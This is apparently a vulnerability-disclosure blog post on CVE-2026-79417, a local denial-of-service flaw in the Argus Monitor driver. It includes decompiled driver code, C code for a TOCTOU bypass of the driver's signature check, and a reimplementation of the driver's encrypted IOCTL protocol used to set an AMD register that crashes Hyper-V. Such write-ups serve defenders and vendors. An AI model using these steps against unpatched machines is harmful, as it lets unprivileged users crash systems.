


Argus Monitor Local Denial-of-Service Vulnerability (CVE-2026-79417)
TL;DR
For versions <= 7.4.02, an exposed WRMSR IOCTL in ArgusMonitor.sys, combined with poorly enforced driver security controls, allows low-privileged users to trigger a denial-of-service condition. The vulnerability was assigned CVE-2026-79417.
Introduction
Argus Monitor is a hardware monitoring utility for Windows. Like many related tools, it ships with a kernel component (ArgusMonitor.sys) that enables low-level access to hardware interfaces required for sensor and fan-control functionality. Unfortunately, the driver contains several security oversights. In this blog post, we shall focus on CVE-2026-79417—a local denial-of-service vulnerability.
A complete proof-of-concept can be accessed here.
The Vulnerability
At a high-level, the vulnerability stems from an IOCTL that exposes the privileged x86 WRMSR instruction to user mode. By supplying a crafted input, an attacker can disable CPU power-management and idle mechanisms—triggering a system bugcheck.
IOCTL 0x9C4024A8
The vulnerable functionality is exposed through IOCTL 0x9C4024A8. The following is the relevant IDA decompilation of the driver’s IRP_MJ_DEVICE_CONTROL handler:
switch( CurrentStackLocation->Parameters.DeviceIoControl.IoControlCode )
{
case 0x9C4024A8:
{
if ( (_DWORD)InputBufferLen != 56 )
goto LABEL_304;
v21 = 0;
if ( (_DWORD)OutputBufferLen )
goto LABEL_304;
if ( !byte_14000EBE1 )
goto LABEL_27;
LOBYTE(v11) = 1;
// ArgusMonitor.sys+0x1044
if ( !VerifyDecryptBuffer(SystemBuffer, 56, v11) )
{
v3 = 0xE000A009;
goto LABEL_305;
}
// ArgusMonitor.sys+0x93C4
v22 = WrMsr(
*(unsigned int*)SystemBuffer,
*((_QWORD *)SystemBuffer + 4));
v25 = 0;
v3 = v22;
LOBYTE(v23) = 1;
sub_140002C78(SystemBuffer, v25, v23);
Irp->IoStatus.Information = v21;
goto LABEL_305;
}
}
The handler first validates the input/output buffer lengths, then verifies and optionally decrypts the input via VerifyDecryptBuffer. If successful, the core operation of the IOCTL, WrMsr, is executed. This validate-decrypt-execute pattern recurs across every IOCTL handler; we save such discussion for the later section Custom IOCTL Protocol.
Further decompilation of WrMsr reveals notable constraints:
// ArgusMonitor.sys+0x93C4
__int64 WrMsr(__int64 MSRIdx, __int64 Value)
{
if ( CPUFamily == AMD && MSRIdx == 0xC0010015 )
{
__writemsr(MSRIdx, Value);
return 0;
}
return 0xC0000022LL;
}
WRMSR only executes when running on an AMD CPU and when targeting MSR 0xC0010015, the AMD Hardware Configuration Register (HWCR).
MSR 0xC0010015 to Bugcheck
As documented in AMD’s Family 1Ah Model 02h PPR, bit 9 (MonMwaitDis) of the HWCR governs the availability of the MONITOR, MONITORX, MWAIT, and MWAITX opcodes:

Once toggled, these opcodes become illegal—any execution raises #UD, regardless of privilege level. Additionally, not all users guard their usage through FeatureExtIdEcx, thus flipping this bit will result in system instability.
Hyper-V, enabled by default on latest versions of Windows, is one such user. Namely, hvax64.exe, the AMD64 Hyper-V binary, contains the following routine:
; // hvax64.exe+0x296557
sub_FFFFF80000296550 proc near
mov rax, rcx
xor ecx, ecx
xor edx, edx
monitor rax, rcx, rdx ; Invalid Opcode exception will occur here.
retn
sub_FFFFF80000296550 endp
With MonMwaitDis set, this routine raises #UD inside the hypervisor, triggering a HYPERVISOR_ERROR (0x2001) bugcheck.
NOTE: Unfortunately, hvax64.pdb is not publicly available, so the exact trigger(s) are difficult to determine. One such code path is likely in the hypervisor’s RDMSR intercept handler.
Obtaining a Handle
Of course, reaching the vulnerable IOCTL requires a valid handle to the device object. The WinDbg command !ioctldecode 0x9C4024A8 reveals a FILE_ANY_ACCESS access type. Therefore, the IOCTL itself imposes no access restrictions. However, obtaining a handle is not as straightforward.
Device Object Security Descriptor
DriverEntry creates the device object using IoCreateDeviceSecure with the following security descriptor definition language string:
D: # DACL (Discretionary Access Control List)
P # Protected DACL (no permission inheritance)
(A;;GA;;;SY) # Allow SYSTEM (SY) full access (GA)
(A;;GA;;;BA) # Allow Administrators (BA) full access (GA)
(A;;GRGW;;;AU) # Allow Authenticated Users (AU) R/W access (GR/GW)
The final access control entry is most important. It grants any authenticated user GENERIC_READ | GENERIC_WRITE access to the device object. Consequently, any unprivileged local user can open a handle to the driver as far as the handle is concerned.
Custom WinVerifyTrust
The driver enforces an additional access-control mechanism in its IRP_MJ_CREATE handler. More specifically, it aims to reimplement the core of WinVerifyTrust:
// ArgusMonitor.sys+0xA220
__int64 VerifyProcess(PEPROCESS Process)
{
// Resolve the on-disk image path of the calling process.
if (!NT_SUCCESS(SeLocateProcessImageName(Process, &imagePath)))
return STATUS_NOT_FOUND;
// Open the image file for reading.
InitializeObjectAttributes(
&oa,
imagePath,
OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE,
NULL,
NULL
);
if (!NT_SUCCESS(ZwOpenFile(
&fHandle,
FILE_READ_DATA,
&oa,
&iosb,
FILE_SHARE_READ,
0
)))
return STATUS_OPEN_FAILED;
// Validate PE headers and parse the Security Directory.
if (!ParsePEHeaders(fHandle, &certOffset, &certSize))
return STATUS_INVALID_IMAGE;
// Recompute the Authenticode hash.
ComputeAuthenticodeHash(fHandle, &computedHash);
// Parse the WIN_CERTIFICATE and extract the embedded digest.
ZwReadFile(fHandle, ..., certBlob, certSize, &certOffset, NULL);
ExtractEmbeddedDigest(certBlob, &embeddedHash);
// Ensure the file hasn't been modified since signing.
if (RtlCompareMemory(&computedHash, &embeddedHash, 32) != 32)
return STATUS_HASH_MISMATCH;
// Verify the signer.
if (!VerifyPinnedCertificate(certBlob, certSize))
return STATUS_UNTRUSTED_SIGNER;
ZwClose(fHandle);
return STATUS_SUCCESS;
}
NOTE: The above pseudocode has been significantly simplified for readability.
Notably, the code doesn’t perform any asymmetric cryptography—it reduces to a byte comparison. Consequently, a carefully crafted WIN_CERTIFICATE structure is sufficient to satisfy the check.
TOCTOU Bypass
The cryptographic flaw is unnecessary, as VerifyProcess is also vulnerable to a simpler, albeit more subtle, TOCTOU bug. By decompiling ntoskrnl.exe, we find SeLocateProcessImageName wraps around PsGetAllocatedFullProcessImageName:
__int64 __fastcall PsGetAllocatedFullProcessImageName(PEPROCESS PEPROCESS, PUNICODE_STRING *ImageFileName)
{
// [COLLAPSED LOCAL DECLARATIONS. PRESS NUMPAD "+" TO EXPAND]
SeImageFileName = (OBJECT_NAME_INFORMATION *)PEPROCESS->SeAuditProcessCreationInfo.ImageFileName;
PoolWithTag = (UNICODE_STRING *)ExAllocatePoolWithTag(
NonPagedPoolNx,
SeImageFileName->Name.MaximumLength + 16LL,
0x6E497350u);
v5 = 0;
v6 = PoolWithTag;
if ( PoolWithTag )
{
*PoolWithTag = SeImageFileName->Name;
if ( PoolWithTag->Buffer )
{
PoolWithTag->Buffer = &PoolWithTag[1].Length;
memmove(&PoolWithTag[1], SeImageFileName->Name.Buffer, SeImageFileName->Name.MaximumLength);
}
*ImageFileName = v6;
}
else
{
return 0xC0000017;
}
return v5;
}
The latter retrieves the image path (SeImageFileName) from the undocumented SeAuditProcessCreationInfo field within the opaque EPROCESS structure at offset 0x5C0. As the name suggests, this value is written at process creation, and never updated. Therefore, if the executable is renamed after the process starts, SeLocateProcessImageName continues to return the original image path—which can be replaced with a legitimate signed binary before opening a handle to the driver.
In practice, such a bypass can be implemented as follows:
// Move our malicious binary "out of the way".
MoveFileEx(malPath, tempPath, MOVE_FILE_REPLACE_EXISTING);
// Place a legitimate signed binary at the original path.
CopyFile(legitPath, malPath, FALSE);
// Obtain a handle to the driver,
// VerifyProcess resolves the legitimate binary.
HANDLE hDriver = CreateFileW(
L"\\\\.\\ArgusMonitor",
GENERIC_READ | GENERIC_WRITE,
0,
NULL,
OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL,
NULL
);
Custom IOCTL Protocol
Armed with a handle to the driver, all that remains is reimplementing the 2-layer IOCTL protocol we alluded to in Section The Vulnerability.
XOR Encryption & Keystream Derivation
The first layer is an XOR encryption, whose keystream is derived from a SHA-256 based key derivation function (KDF):
bool compute_keystream(
uint8_t keystream[KEYSTREAM_LEN],
const uint8_t ctx[KDF_CTX_LEN],
const uint8_t secret_key[SECRET_KEY_LEN]
)
{
uint8_t k[32];
SHA256_CTX sha;
/*
K_0 = SHA256(CTX || SECRET_KEY)
*/
SHA256_Init(&sha);
SHA256_Update(&sha, ctx, KDF_CTX_LEN);
SHA256_Update(&sha, secret_key, SECRET_KEY_LEN);
SHA256_Final(k, &sha);
/*
K_i = SHA(K_{i-1} || SECRET_KEY || CTR)
keystream = K_1 || ... || K_n
*/
for (uint8_t ctr = 0; ctr < KEYSTREAM_LEN / 32; ctr++)
{
SHA256_Init(&sha);
SHA256_Update(&sha, k, sizeof(k));
SHA256_Update(&sha, secret_key, SECRET_KEY_LEN);
SHA256_Update(&sha, &ctr, sizeof(ctr));
SHA256_Final(k, &sha);
memcpy(keystream + (ctr * 32), k, 32);
}
return 1;
}
Here, secret_key is a 32-byte buffer, negotiated by the user over IOCTL 0x9C4024C4. The only kernel-side constraint is an entropy threshold check, but we omit this.
Furthermore, ctx is a hardcoded value, computed from the SHA-256 HMAC of an XOR folded 128-byte array:
bool get_kdf_ctx(uint8_t ctx[KDF_CTX_LEN])
{
/*
KDF context is always the same.
Driver computes it by XOR folding
unknown, and applying SHA-256 HMAC.
*/
// ArgusMonitor.sys+0xC3F0
static const uint8_t unknown[128] = {
// Omitted
};
uint8_t x[32];
uint8_t y[32];
for (int i = 0; i < 32; i++)
{
x[i] = unknown[i] ^ unknown[i + 32];
y[i] = unknown[i + 64] ^ unknown[i + 96];
}
unsigned int ctx_len = 0;
if (!HMAC(
EVP_sha256(),
y, sizeof(y),
x, sizeof(x),
ctx,
&ctx_len
))
return 0;
return ctx_len == KDF_CTX_LEN;
}
Where unknown is a hardcoded array of seemingly random bytes that can be statically extracted from the driver’s .rdata section.
CRC-16 ModBus
The second layer is a CRC-16 checksum over the plaintext, appended, without encryption, in big-endian order:
uint16_t crc16_modbus(const uint8_t* data, size_t len)
{
uint16_t crc = 0xFFFF;
while (len--)
{
crc ^= *data++;
for (int i = 0; i < 8; ++i)
{
if (crc & 0x1)
crc = (crc >> 1) ^ 0xA001;
else
crc >>= 1;
}
}
return crc;
}
Although not critical, the choice of appending the checksum bytes unencrypted is a second notable cryptographic flaw.
Proof-of-Concept
A complete proof-of-concept can be accessed here.

Disclosure Timeline
03/08/2026 - Vulnerability Discovered
03/08/2026 - Vulnerability Disclosed
15/08/2026 - CVE Requested
09/09/2026 - CVE Reserved
24/09/2026 - Patch Released
25/09/2026 - Blog Published
29/09/2026 - CVE Published